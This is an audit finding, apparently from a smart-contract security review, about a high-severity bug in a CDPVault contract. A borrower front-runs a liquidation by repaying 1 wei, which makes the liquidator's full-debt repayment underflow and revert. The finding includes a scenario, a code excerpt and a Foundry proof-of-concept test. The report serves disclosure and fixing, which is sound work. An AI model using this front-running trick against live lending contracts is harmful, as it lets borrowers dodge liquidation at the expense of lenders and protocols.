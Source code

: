 ## [H] Malicious borrower can evade full liquidation in `CDPVault::liquidatePosition` by repaying small amounts of debt

<relative_path_091409:src/CDPVault.sol#L509>

<relative_path_091409:src/CDPVault.sol#L713>

### Impact

In the `CDPVault::liquidatePosition` function, a liquidator can repay the total debt of a position to liquidate it, this can be achieved by calling the `CDPVault::virtualDebt` function to obtain the total debt and then call `CDPVault::liquidatePosition`. However, a malicious borrower can front-run this liquidation transaction by repaying a small amount (e.g., 1 wei) of the debt. This action causes the debt to be slightly less than the amount the liquidator intends to repay. Consequently, the subtraction operation in `CDPVault#L713` will underflow, leading to a revert in the transaction. This will allow borrowers to evade total debt liquidation.

### Proof of Concept

Consider the next scenario:

1. Assume the initial debt is `80 ether`. The position is liquidatable.
2. Liquidator prepares to repay the full debt `80 ether` to liquidate the position via `CDPVault::liquidatePosition`. Liquidator gets the full debt using `CDPVault::virtualDebt` function.
3. Malicious borrower front-runs the transaction and repays `1 wei`, the debt is now `80 ether - 1 wei`.
4. Liquidator's transaction is executed but it attempts to repay `80 ether`, causing an underflow when the `newDebt` is calculated `CDPVault#L713` as `(80 ether - 1 wei) - 80 ether`.

```solidity
File: CDPVault.sol
652:     function calcDecrease(
653:         uint256 amount,
654:         uint256 debt,
655:         uint256 cumulativeIndexNow,
656:         uint256 cumulativeIndexLastUpdate,
657:         uint128 cumulativeQuotaInterest
658:     )
659:         internal
660:         pure
661:         returns (uint256 newDebt, uint256 newCumulativeIndex, uint256 profit, uint128 newCumulativeQuotaInterest)
662:     {
663:         uint256 amountToRepay = amount;
...
...
713:>>>      newDebt = debt - amountToRepay;  // underflow
714:     }
```

The next test demonstrates how the malicious borrower can evade full liquidation by repaying small amounts of the debt.

```solidity
    // File: CDPVault.t.sol
    function test_liquidate_fullliquidation_panicerror() public {
        CDPVault vault = createCDPVault(token, 150 ether, 0, 1.25 ether, 1 ether, 0.95 ether);
        createGaugeAndSetGauge(address(vault));
        // create position
        _modifyCollateralAndDebt(vault, 110 ether, 80 ether);
        // position is liquidatable
        _updateSpot(0.80 ether);
        //
        // 1. Liquidator calculates the full debt in order to call `CDPVault::liquidatePosition`.
        address position = address(this);
        uint256 liquidatorRepayAmount = virtualDebt(vault, position);
        address liquidator = address(0xb0b);
        createCredit(liquidator, liquidatorRepayAmount);
        //
        // 2. Malicious borrower frontrun liquidator and repays 1 wei
        mockWETH.approve(address(vault), 1);
        vault.modifyCollateralAndDebt(address(this), address(this), address(this), 0, -toInt256(1));
        //
        // 3. Liquidator tx is executed but it will be reverted by `arithmeticError`
        vm.startPrank(liquidator);
        mockWETH.approve(address(vault), liquidatorRepayAmount);
        vm.expectRevert(stdError.arithmeticError);
        vault.liquidatePosition(position, liquidatorRepayAmount);
    }
```



